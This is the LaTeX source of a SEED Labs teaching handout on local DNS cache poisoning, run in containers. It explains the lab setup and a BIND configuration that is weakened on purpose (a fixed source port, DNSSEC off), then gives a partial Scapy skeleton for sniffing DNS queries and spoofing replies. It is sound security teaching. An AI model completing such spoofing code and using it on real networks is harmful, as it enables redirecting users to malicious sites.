%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\dnsFigs}{./Figs}
\lhead{\bfseries SEED Labs -- Local DNS Attack Lab}


\def \code#1 {\fbox{\scriptsize{\texttt{#1}}}}

\newcommand{\bankcom}{\url{bank32.com}\xspace}
\newcommand{\wwwbank}{\url{www.bank32.com}\xspace}
\newcommand{\examplenet}{\url{example.net}\xspace}
\newcommand{\wwwexample}{\url{www.example.net}\xspace}
\newcommand{\apollo}{\texttt{Apollo}\xspace}

\begin{document}

\begin{center}
{\LARGE Local DNS Attack Lab}
\end{center}

\seedlabcopyright{2018 - 2020}


% *******************************************
% SECTION
% ******************************************* 
\section{Lab Overview}

DNS (Domain Name System) is the Internet's phone book; it  
translates hostnames to IP addresses (and vice versa).
This translation is through DNS resolution, which happens behind
the scene. DNS attacks manipulate this resolution process
in various ways, with an intent to misdirect users to
alternative destinations, which are often malicious. 
The objective of this lab is to understand how such attacks work.
Students will first set up and configure a DNS server, and then they 
will try various DNS attacks on the target that is also within
the lab environment.


The difficulties of attacking local victims versus remote DNS servers are
quite different. Therefore, we have developed two labs, one focusing on
local DNS attacks, and the other on remote DNS attack. This lab focuses on
local attacks.
This lab covers the following topics:

\begin{itemize}[noitemsep]
\item DNS and how it works
\item DNS server setup
\item DNS cache poisoning attack
\item Spoofing DNS responses
\item Packet sniffing and spoofing
\item The Scapy tool
\end{itemize}


\paragraph{Readings and videos.}
Detailed coverage of the DNS protocol and attacks can be found in the following:

\begin{itemize}
\item Chapter 18 of the SEED Book, \seedbook
\item Section 7 of the SEED Lecture, \seedisvideo
\end{itemize}



\paragraph{Lab environment.} \seedenvironmentC





% *******************************************
% SECTION
% *******************************************
\section{Lab Environment Setup Task}
\label{sec:environment}


The main target for DNS cache poisoning attacks is
local DNS server.  Obviously, it
is illegal to attack a real server, so we need to set up our own DNS
server to  conduct the attack experiments. The lab
environment needs four separate machines:
one for the victim, one for the local DNS server, and two for the attacker.
The lab environment setup is illustrated in Figure~\ref{dns:fig:environment}.
This lab focuses on the local attack, so we put all these machines on 
the same LAN.



\begin{figure}[htb]
\centering

\includegraphics[width=0.8\textwidth]{\commonfolder/Figs/DNS_2lans.pdf}
\caption{Lab environment setup}
\label{dns:fig:environment}
\end{figure}



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Container Setup and Commands}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Please download the
\texttt{Labsetup.zip} file to your VM from the lab's website,
unzip it, enter the \texttt{Labsetup} folder, and 
use the \texttt{docker-compose.yml} file to 
set up the lab environment. Detailed explanation
of the content in this file and all the involved 
\texttt{Dockerfile} can be found from the 
user manual, which is linked to the website of this lab.
If this is the first time you set up a SEED lab environment
using containers, it is very important that you read 
the user manual. 

In the following, we list some of the commonly
used commands related to Docker and Compose. 
Since we are going to use 
these commands very frequently, we have created aliases for them
in the \texttt{.bashrc} file (in our provided SEEDUbuntu 20.04 VM).


\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


All the containers will be running in the background. To run
commands on a container, we often need to get a shell on
that container. We first need to use the \texttt{"docker ps"}  
command to find out the ID of the container, and then
use \texttt{"docker exec"} to start a shell on that 
container. We have created aliases for them in
the \texttt{.bashrc} file.

\begin{lstlisting}
$ dockps        # Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   # Alias for: docker exec -it <id> /bin/bash

# The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

# Note: If a docker command requires a container ID, you do not need to 
#       type the entire ID string. Typing the first few characters will 
#       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}


If you encounter problems when setting up the lab environment, 
please read the ``Common Problems'' section of the manual
for potential solutions.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{About the Attacker Container} 

In this lab, we can either use the VM or the attacker container 
as the attacker machine. If you look at the Docker Compose file, you will
see that the attacker container is configured differently from the other 
containers. 


\begin{itemize}
\item \textit{Shared folder.} When we use the attacker container 
to launch attacks, we need to put the attacking code inside
the attacker container. 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Code editing is more convenient inside the VM than in a container, 
because we can use our favorite editor to write code. 
In order for the VM and a container to share files, 
we have created a shared folder between VM and the container
using the Docker \texttt{volumes}.
If you look at the Docker Compose file, you will find out that
we have added the following entry to some of the containers.
It indicates mounting the \texttt{./volumes} folder on the host
machine (i.e., the VM) to the \texttt{/volumes} folder inside the container.
We will write our code in the \texttt{./volumes} folder (on the VM), so they
can be used inside the containers.

\begin{lstlisting}
volumes:
       - ./volumes:/volumes
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\item \textit{Host mode.} 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
In this lab, the attacker needs to be able to sniff packets,
but running sniffer programs inside a container has problems, because
a container is effectively attached to a virtual switch, 
so it can only see its own traffic, and it is never going to see 
the packets among other containers. To solve this problem,
we use the \texttt{host} mode for the attacker container. This
allows the attacker container to see all the traffics. The following
entry used on the attacker container:

\begin{lstlisting}
network_mode: host
\end{lstlisting}

When a container is in the \texttt{host} mode,  it sees
all the host's network interfaces, and it even has the same
IP addresses as the host. Basically, it is put in the
same network namespace as the host VM. However, the container
is still a separate machine, because its other namespaces are
still different from the host.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\end{itemize}



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Summary of the DNS Configuration} 

All the containers are already configured for this lab. 
We provide a summary here, so students are aware of 
these configurations. Detailed explanation
of the configuration can be found from the manual (Section \manualdns).



\paragraph{Local DNS Server.} 
We run the BIND 9 DNS server program on the local DNS server. 
BIND 9 gets its configuration from a file called \path{/etc/bind/named.conf}. This file
is the primary configuration file, and it usually contains several \texttt{"include"}
entries, i.e., the actual configurations are stored in those included files. One of the
included files is called \path{/etc/bind/named.conf.options}. 
This is where the actual configuration is set. 


\begin{itemize}
\item \textit{Simplification.}
DNS servers now randomize
the source port number in their DNS queries; this makes the attacks much more
difficult. Unfortunately, many DNS servers still use predictable source
port number.  For the sake of simplicity in this lab, we fix the
source port number to  {\tt 33333} in the 
configuration file. 

\item \textit{Turning off DNSSEC.} 
DNSSEC is introduced to protect against spoofing attacks on DNS servers.
To show how attacks work
without this protection mechanism, we have turned off the protection 
in the configuration file. 


\item \textit{DNS cache.}
During the attack, we need to inspect the DNS cache on the local DNS server.
The following two commands are related to DNS cache.
The first command dumps the content of the cache to the file 
\path{/var/cache/bind/dump.db}, 
and the second command clears the cache.

\begin{lstlisting}
# rndc dumpdb -cache    // Dump the cache to the specified file
# rndc flush            // Flush the DNS cache
\end{lstlisting}

\item \textit{Forwarding the \texttt{attacker32.com} zone.}
A forward zone is added to the local DNS server,
so if anybody queries the \texttt{attacker32.com} domain, 
the query will be forwarded to this domain's nameserver, which
is hosted in the attacker container. The zone entry
is put inside the \texttt{named.conf} file. 

\begin{lstlisting}
zone "attacker32.com" {
    type forward;
    forwarders { 
        10.9.0.153; 
    };
};
\end{lstlisting}
\end{itemize}



\paragraph{User machine.}
The user container {\tt 10.9.0.5} is already 
configured to use {\tt 10.9.0.53} as its local DNS server.
This is achieved by changing
the resolver configuration file~(\texttt{/etc/resolv.conf}) of the user machine,
so the server \texttt{10.9.0.53} is added as the first \texttt{nameserver} entry in the file, i.e.,
this server will be used as the primary DNS server.


\paragraph{Attacker's Nameserver.}
On the attacker's nameserver, we host two zones. One is 
the attacker's legitimate zone \texttt{attacker32.com}, and the other 
is the fake \texttt{example.com} zone. The zones are 
configured in \path{/etc/bind/named.conf}:

\begin{lstlisting}
zone "attacker32.com" {
        type master;
        file "/etc/bind/attacker32.com.zone";
};

zone "example.com" {
        type master;
        file "/etc/bind/example.com.zone";
};
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Testing the DNS Setup}

From the User container, we will run a series of commands to ensure 
that our lab setup is correct. In your lab report, please document
your testing results. 


\paragraph{Get the IP address of \texttt{ns.attacker32.com}.}
When we run the following \texttt{dig} command, 
the local DNS server will forward the request to the Attacker nameserver 
due to the \texttt{forward} zone entry added to the local DNS server's
configuration file. Therefore, the answer should come from
the \texttt{attacker32.com.zone} file that we set up on the Attacker nameserver.
If this is not what you get, your setup has an issue. Please describe your
observation in your lab report. 

\begin{lstlisting}
$ dig ns.attacker32.com
\end{lstlisting}



\paragraph{Get the IP address of \texttt{www.example.com}.} 
Two nameservers are now hosting the \texttt{example.com} 
domain, one is the domain's official nameserver, and the other 
is the Attacker container. We will query these two nameservers and see what 
response we will get. 
Please run the following two commands (from the User machine), 
and describe your observation. 


\begin{lstlisting}
// Send the query to our local DNS server, which will send the query
// to example.com's official nameserver. 
$ dig www.example.com

// Send the query directly to ns.attacker32.com 
$ dig @ns.attacker32.com www.example.com
\end{lstlisting}
 


Obviously, nobody is going to ask \texttt{ns.attacker32.com} for 
the IP address of \texttt{www.example.com}; they will always ask
the \texttt{example.com} domain's official nameserver for 
answers. The objective of the DNS cache poisoning attack
is to get the victims to ask 
\texttt{ns.attacker32.com} for the IP address of 
\texttt{www.example.com}. Namely, if our attack is successful, 
if we just run the first \texttt{dig} command, the one
without the \texttt{@} option, we should get the 
fake result from the attacker, instead of getting 
the authentic one from the domain's legitimate nameserver.



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% *******************************************
% SECTION
% ******************************************* 
\section{The Attack Tasks}


The main objective of DNS attacks on a user is to redirect the user
to another machine $B$ when the user tries to get to machine $A$ using
$A$'s host name. For example, when the user tries to access the online banking,
if the adversaries can redirect the user 
to a malicious web site that looks very much like the main web site 
of bank, the user might be fooled and give away password
of his/her online banking account.





% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 1: Directly Spoofing Response to User}



\begin{figure}[htb]
\centering

\includegraphics[width=1.0\textwidth]{\dnsFigs/attack_server_local.pdf}
\caption{Local DNS Poisoning Attack}
\label{dns:fig:local_attack}
\end{figure}


When a user types the name of a web site (a host name, such as {\tt
www.example.com}) in a web browser, the user's computer will send a DNS 
request to the local DNS server to resolve the IP address of the host name.  
Attackers can sniff the DNS request message,
they can then immediately create a fake DNS response, 
and send back to the user machine. If the fake reply arrives
earlier than the real reply, it will be accepted by the user machine.
See Figure~\ref{dns:fig:local_attack}). 

Please write a program to launch such an attack. A code 
skeleton is provided in the following. Section~\ref{sec:guideline}
has an example showing how to create a DNS packet that includes 
various types of records. Detailed guidelines are 
provided in the SEED book. 


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(...)           # Create an IP object
    udp = UDP(...)         # Create a UPD object
    Anssec = DNSRR(...)    # Create an answer record
    dns = DNS(...)         # Create a DNS object
    spoofpkt = ip/udp/dns  # Assemble the spoofed DNS packet
    send(spoofpkt)

myFilter = "..."    # Set the filter
pkt=sniff(iface='(*@\textbf{br-43d947d991eb}@*)', filter=myFilter, prn=spoof_dns)
\end{lstlisting}

It should be noted that in the code above, the value (highlighted) for the 
\texttt{iface} argument should be replaced with the actual interface 
name for the \texttt{10.9.0.0/24} network.  
 
While the attack program is running, on the user machine, you can
run \texttt{dig} command on behalf of the user.
This command triggers the user
machine to send out a DNS query to the local DNS server, which will
eventually send out a DNS query to the authoritative nameserver of the
\texttt{example.com} domain (if the cache does not contain the answer).
If your attack is successful, you should be able to see
your spoofed information in the reply. Compare your results obtained before
and after the attack. 

Before launching the attack, make sure that the cache in the local DNS
server is cleaned. If the cache has the answer, the reply from the 
local DNS server will be faster than the one you spoofed, and your 
attack will not be able to succeed. 





\paragraph{A potential issue.} When we do this lab using containers, 
sometimes (not always) we saw a very strange situation. The sniffing and spoofing 
inside containers is very slow, and our spoofed packets even arrive 
later than the legitimate one from the Internet, even though 
we are local. In the past, when we use VMs for this lab, we never 
had this issue. We have not figured out the cause of this 
performance issue yet (if you have any insight on this issue, please 
let us know). 

If you do encounter this strange situation, we can get 
around it. We intentionally slow down the 
traffic going to the outside, so the authentic replies will not 
come that fast. This can be done using the 
following \texttt{tc} command on the router to add some 
delay to the outgoing network traffic. 
The router has two interfaces, \texttt{eth0} and 
\texttt{eth1}, make sure use the one connected 
to the external network \texttt{10.8.0.0/24}.

\begin{lstlisting}
// Delay the network traffic by 100ms
# tc qdisc add dev (*@\textbf{eth0}@*) root netem delay 100ms

// Delete the tc entry
# tc qdisc del dev eth0 root netem

// Show all the tc entries 
# tc qdisc show dev eth0
\end{lstlisting}
 

